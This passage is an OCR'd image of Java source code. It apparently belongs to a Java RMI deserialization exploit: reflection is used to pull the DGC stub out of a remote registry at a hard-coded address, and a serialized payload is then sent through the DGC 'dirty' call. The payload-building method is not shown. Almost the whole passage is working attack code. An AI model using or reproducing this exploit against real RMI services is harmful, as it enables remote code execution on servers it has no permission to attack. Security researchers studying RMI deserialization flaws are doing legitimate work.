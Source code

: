 ```java
            new Operation("java.rmi.dgc.Lease dirty(java.rmi.server.ObjID[], long, java.rmi.dgc.Lease)")
    };

    public static void clean(DGCImpl_Stub dgc) throws Exception {
        Class<?> clazz = Class.forName("java.rmi.server.RemoteObject");
        Field field = clazz.getDeclaredField("ref");
        field.setAccessible(true);
        UnicastRef ref = (UnicastRef) field.get(dgc);
        RemoteCall var6 = ref.newCall(dgc, operations, 0, -669196253586618813L);
        ObjectOutput var7 = var6.getOutputStream();
        var7.writeObject(getPayload());
        ref.invoke(var6);
    }
    public static DGCImpl_Stub getDGCImpl_Stub(RegistryImpl_Stub registry) throws Exception {
        Remote helloRemoteObject = registry.lookup("helloRemoteObject");
        InvocationHandler handler = Proxy.getInvocationHandler(helloRemoteObject);
        Class<?> clazzRemoteObject = Class.forName("java.rmi.server.RemoteObject");
        Field refRemoteObject = clazzRemoteObject.getDeclaredField("ref");
        refRemoteObject.setAccessible(true);
        UnicastRef unicastRef = (UnicastRef) refRemoteObject.get(handler);

        Class<?> clazzUnicastRef = Class.forName("sun.rmi.server.UnicastRef");
        Field refUnicastRef = clazzUnicastRef.getDeclaredField("ref");
        refUnicastRef.setAccessible(true);
        LiveRef liveRef = (LiveRef) refUnicastRef.get(unicastRef);

        Class<?> clazzLiveRef = Class.forName("sun.rmi.transport.LiveRef");
        Field refLiveRef = clazzLiveRef.getDeclaredField("ep");
        refLiveRef.setAccessible(true);
        TCPEndpoint tcpEndpoint = (TCPEndpoint) refLiveRef.get(liveRef);

        Class<?> clazzTCPEndpoint = Class.forName("sun.rmi.transport.DGCClient$EndpointEntry");
        Method lookupTCPEndpoint = clazzTCPEndpoint.getDeclaredMethod("lookup", Endpoint.class);
        lookupTCPEndpoint.setAccessible(true);
        Field endpointTableTCPEndpoint = clazzTCPEndpoint.getDeclaredField("endpointTable");
        endpointTableTCPEndpoint.setAccessible(true);
        Map<?, ?> endpointTable = (Map<?, ?>) endpointTableTCPEndpoint.get(null);
        endpointTable.clear();
        Object entry = lookupTCPEndpoint.invoke(null, tcpEndpoint);

        Class<?> clazzEntry = entry.getClass();
        Field dgcEntry = clazzEntry.getDeclaredField("dgc");
        dgcEntry.setAccessible(true);
        DGCImpl_Stub dgc = (DGCImpl_Stub) dgcEntry.get(entry);
        return dgc;
    }

    public static void main(String[] args) throws Exception {
        RegistryImpl_Stub registry = (RegistryImpl_Stub) LocateRegistry.getRegistry("192.168.137.114", 1099);
        DGCImpl_Stub dgc = getDGCImpl_Stub(registry);
        clean(dgc);
    }
}
```
